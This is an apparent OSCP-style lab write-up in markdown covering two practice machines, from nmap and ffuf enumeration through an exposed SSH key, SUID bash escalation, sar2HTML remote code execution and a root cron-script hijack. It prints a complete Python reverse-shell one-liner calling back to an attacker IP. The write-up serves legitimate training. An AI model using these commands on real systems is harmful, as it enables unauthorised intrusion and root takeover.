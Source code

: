 # InfosecPrep 192.168.239.89

## Service Scanning
In this step i uesed <b> nmap </b>  with option -sV 
``` man
  -sV : Probe open ports to determine service/version info
```
* <b>result :</b>
  
![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.16.10.png)

as shown in the image below I got in result open port 80 running HTTP server and 22 running ssh. now I know that there is a web app on this server I get into the web app and found a website hosted using WordPress and an article on the website. image to the website after reading the article I can see a small hint about the user of this box. now the service scanning step is done we can go to the next step .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.16.39.png)
 ## Web Enumeration

In this step, I used Directory/File Enumeration using the ffuf tool with a common wordlist.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.20.09.png)

from ffuf result i can see that there is a robots.txt i check it and found a dissalowed dirctory i check it too and found secrect.txt .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.22.33.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.23.03.png)

the secret.txt contain encrypted data after I decode it with the base64 tool I got an ssh private key and this is a sensitive data shared publicly I can use it to ssh to the server remotely using `ssh -i option` because I already know the username,
after access to the server now we are in but only as oscp user, we want to go as root so we will check if the is any way to upgrade Privilege to root so this is the next step.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.25.49.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.26.22.png)

## Privilege Escalation

After access to the machine, we will check how we can do Privilege Escalation, there is a command I used to check if there is  SUID (Set owner User ID up on execution) .

`find / -perm -u=s 2> /dev/null`

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.28.16.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.30.16.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.30.29.png)

as we can see there are some binaries as SUID we can check GTObin how we can use this binary to escalate privilege to root, from the result we can see that bash in the list and from https://gtfobins.github.io/ we can see that bash can escalate privilege using `bash -p`

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.31.00.png)

and finally, we are root.

# sar 192.168.239.89

In this machine, I did all the same steps as the first machine but in the step 
<b>Web Enumeration </b> I didn't find any sensitive data I found only a directory to sar2HTML I check that directory and I got a SAR service running on the server I check if the version of SAR fi it exploit and from https://www.exploit-db.com/exploits/47204 I can see there is a vulnerable I can use it to run shell code execution as a reverse shell what I did first I check ls command and `whoaim` after that I run the server with NC listening in my IP and port I provide and established a connection using a socket with help of python command finally I have a shell from the server I'm now as the www-data user.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.35.06.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.35.46.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.37.35.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.38.01.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.38.13.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.38.54.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.39.31.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.40.07.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.41.40.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.42.42.png)


## Privilege Escalation

In this machine also checked if there is any binary to use to escalate privilege but unfortunately I did not find any so I checked crontab I found there is a script called finally.sh run every 5 minutes with root permission so find this script location I cat it and got that script called other script called write.sh but write.sh owned by www-data and finnaly.sh with root user so i can use this to make crontab run something for me as root by changing the write.sh so what I did i removed the write.sh from server i and i create new now in my machine with.
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.55.200",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
and run an HTTP server from my machine and download it to the server using `wget` after that i changed permission to make it executable because the finnaly.sh script call write.sh script with ./write needs permission to execute now all I need to wait for 5 minutes waiting for crontab to get the reverse shell with as root.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.44.19.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.44.47.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.44.56.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.45.10.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.52.00.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.52.47.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.57.14.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2001.05.16.png)
